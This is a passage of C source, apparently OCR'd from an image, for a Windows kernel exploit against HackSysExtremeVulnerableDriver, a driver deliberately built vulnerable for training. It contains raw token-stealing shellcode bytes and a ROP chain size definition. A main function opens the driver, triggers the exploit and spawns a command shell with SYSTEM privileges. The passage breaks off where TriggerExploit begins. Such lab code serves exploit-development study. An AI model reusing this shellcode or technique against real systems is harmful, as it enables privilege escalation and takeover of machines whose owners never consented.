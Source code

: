 ```c

// Chain is 2 gadgets + 1 value to store in rcx + address of shellcode
#define CHAIN_SIZE 4 * POINTER_SIZE  


// https://github.com/stolenfootball/HEVDExploits/blob/main/BufferOverflowStack/Windows8x64/shellcode.asm
CHAR TokenStealingPayloadWin8[] =
{
	0x50, 0x53, 0x51, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x48, 0x89, 0xC3, 0x48, 0x8B,
	0x80, 0xE8, 0x02, 0x00, 0x00, 0x48, 0x2D, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x88, 0xE0, 0x02, 0x00, 0x00, 0x48, 0x83, 0xF9, 0x04, 0x75, 0xE6,
	0x48, 0x8B, 0x88, 0x48, 0x03, 0x00, 0x00, 0x80, 0xE1, 0xF0, 0x48, 0x89,
	0x8B, 0x48, 0x03, 0x00, 0x00, 0x41, 0xBC, 0x00, 0x00, 0x00, 0x00, 0x49,
	0x89, 0xEE, 0x49, 0x81, 0xC6, 0xD0, 0x00, 0x00, 0x00, 0x4D, 0x89, 0xF7,
	0x4D, 0x8B, 0x7F, 0x30, 0x48, 0x83, 0xC4, 0x10, 0x59, 0x5B, 0x58, 0xC3
};


INT TriggerExploit(HANDLE hDevice);
UINT64 GetKernelBaseAddress();

INT main() 
{
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    printf("[*] Author: @stolenfootball\n");
    printf("[*] Website: https://stolenfootball.github.io\n\n");

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    if (TriggerExploit(hDevice) >= 0) {
        printf("[+] Spawning shell with SYSTEM privliges...\n");
        system("cmd");
    } else {
        printf("[-] Exploit failed: %lu\n", GetLastError());
    }

    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    return 0;
}

INT TriggerExploit(HANDLE hDevice) 
{
    UINT64 *lpInBuffer;
```